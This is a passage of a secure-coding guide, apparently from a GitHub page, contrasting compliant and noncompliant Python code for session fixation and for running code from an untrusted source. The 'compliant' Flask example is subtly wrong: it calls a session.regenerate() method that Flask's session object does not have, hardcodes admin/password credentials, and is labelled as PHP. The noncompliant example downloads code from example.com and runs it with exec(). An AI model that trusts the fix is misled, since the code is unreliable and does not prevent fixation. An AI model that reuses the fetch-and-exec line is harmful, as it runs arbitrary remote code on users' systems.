 

<span class="d-inline-block p-2 mr-1 v-align-middle bg-green-000"></span>Compliant code:


```php
from flask import Flask, request, session
import os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    
    # Authenticate user
    if username == 'admin' and password == 'password':
        session.regenerate()  # Regenerate session ID
        session['username'] = username
        return 'Login successful'
    else:
        return 'Login failed'

@app.route('/profile')
def profile():
    if 'username' in session:
        return f"Welcome, {session['username']}!"
    else:
        return 'Please login'

# Example usage
app.run()
```


The compliant code addresses the session fixation vulnerability by regenerating the session ID upon successful login using the regenerate() method provided by the session object. This ensures that the session ID is changed after authentication, preventing an attacker from fixing a session ID and hijacking the user's session.

By regenerating the session ID upon login, the compliant code mitigates the risk of session fixation attacks. It ensures that each user gets a unique and unpredictable session ID, enhancing the security of the session management mechanism.





## Inclusion of Functionality from Untrusted Control

<span class="d-inline-block p-2 mr-1 v-align-middle bg-red-000"></span>Noncompliant code:


```php
import requests

# Fetch and execute code from an untrusted source
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
exec(untrusted_code)
```
